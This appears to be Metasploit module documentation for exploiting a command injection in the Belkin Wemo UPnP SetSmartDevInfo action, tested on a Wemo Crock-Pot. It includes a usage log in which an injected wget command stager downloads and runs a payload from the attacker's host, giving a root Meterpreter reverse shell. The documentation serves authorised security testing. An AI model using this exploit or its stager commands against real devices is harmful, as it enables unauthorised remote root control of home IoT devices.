 ## Intro

This module exploits a command injection in the Belkin Wemo UPnP API via
the `SmartDevURL` argument to the `SetSmartDevInfo` action.

This module has been tested on a Wemo-enabled Crock-Pot, but other Wemo
devices are known to be affected, albeit on a different `RPORT` (49153).

## Setup

You may buy the device on Amazon at <https://www.amazon.com/dp/B00IPEO02C/>.

## Targets

```
Id  Name
--  ----
0   Unix In-Memory
1   Linux Dropper
```

## Options

**RPORT**

Set this to the Wemo device's UPnP port. In our testing, this was 49152
for Crock-Pot and 49153 for other devices.

## Usage

```
msf5 exploit(linux/upnp/belkin_wemo_upnp_exec) > run

[*] Started reverse TCP handler on 10.22.22.4:4444
[+] Wemo-enabled device detected
[*] Found firmware version: 2.00.6461
[*] 10.22.22.1:49152 - The target appears to be vulnerable.
[*] Using URL: http://0.0.0.0:8080/CKgRyLqQZtBY6
[*] Local IP: http://[redacted]:8080/CKgRyLqQZtBY6
[*] Generated command stager: ["wget -qO /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P http://10.22.22.4:8080/CKgRyLqQZtBY6", "chmod +x /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P", "/tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P", "rm -f /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P"]
[*] Regenerated command stager: cp /bin/sh /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P;wget -qO /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P http://10.22.22.4:8080/CKgRyLqQZtBY6;/tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P;rm -f /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P
[*] Client 10.22.22.1 (Wget) requested /CKgRyLqQZtBY6
[*] Sending payload to 10.22.22.1 (Wget)
[*] Transmitting intermediate stager...(164 bytes)
[*] Sending stage (1252312 bytes) to 10.22.22.1
[*] Meterpreter session 1 opened (10.22.22.4:4444 -> 10.22.22.1:4607) at 2019-02-12 14:37:37 -0600
[*] Server stopped.

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 10.22.22.1
OS           :  (Linux 2.6.21)
Architecture : mips
BuildTuple   : mipsel-linux-muslsf
Meterpreter  : mipsle/linux
meterpreter >
```
